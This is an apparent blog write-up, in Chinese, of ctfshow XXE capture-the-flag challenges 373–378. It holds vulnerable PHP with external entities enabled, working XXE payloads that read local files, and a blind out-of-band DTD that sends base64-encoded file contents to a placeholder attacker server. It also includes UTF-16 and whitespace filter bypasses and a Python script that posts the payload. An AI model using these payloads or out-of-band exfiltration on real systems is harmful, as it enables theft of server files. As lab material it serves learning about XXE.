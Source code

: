 ```yaml
---
title: ctfshow-xxe
date: 2021-08-21 13:33:33
author: Na0H
headimg: /img/atimg/xxe.png
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow xxe
description:  ctfshow xxe
---
```


<!-- more -->


[从XML相关一步一步到XXE漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6887)

[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3357)

[XML外部实体（XXE）注入详解 - 渗透测试中心 - 博客园 (cnblogs.com)](https://www.cnblogs.com/backlion/p/9302528.html)

## 373

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);	#为TRUE则禁用外部实体
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
>     $creds = simplexml_import_dom($dom);
>     
>     $ctfshow = $creds->ctfshow;
>     echo $ctfshow;
> }
> highlight_file(__FILE__);    
> 
> ```
>
> 利用伪协议php://input获得传入的xml数据
>
> loadXML()接收两个参数：1、包含xml文档的字符串；2、保存libxml选项常量的按位
> 		LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
> 		LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件

payload:

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
<na0h>
<ctfshow>&a;</ctfshow>
</na0h>
```

## 374、375、376-无回显

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
> }
> highlight_file(__FILE__);    
> 
> ```

无回显，需要把数据外带出来
这里可以用python简单的搭一个静态服务器用于监听

```python
py -m http.server 6666
```

在服务器构造一个dtd文件

test.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % a "<!ENTITY &#x25; b SYSTEM 'http://xxx:6666/?x=%file;'>">
%a;
%b;
```

嵌套的`%`需要写成十六进制的`&#x25;`或者其他进制也行

payload:

```xml-dtd
<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>
```

```
这里实体c调用了外部实体test.dtd，然后调用了其中的参数实体a和b，b调用其中的file
就利用伪协议读到flag了
```

![](https://i.loli.net/2021/08/23/L4coRJm59GruVXe.png)

base64解码即可

> ```php
> if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
>     die('error');
> }
> ```
>
> 375、376过滤了XML声明，还是上面的payload就行
> 想绕过的话在中间多打几个空格也就绕过了

## 377-utf-16

```php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

过滤了http，这里改用utf-16编码发包就能绕过了

```python
import requests

url = 'http://d608152d-15f9-468d-a1f4-dfb89bde6d3a.challenge.ctf.show:8080/'
payload = """<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)
```

看一下utf-8和utf-16的区别

![](https://i.loli.net/2021/08/23/aXHBIR6PYxp5D2t.png)

## 378-python X

这题是python XXE漏洞

构造一下：

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
```

![](https://i.loli.net/2021/08/23/jKVeTEWos5MD9FH.png)
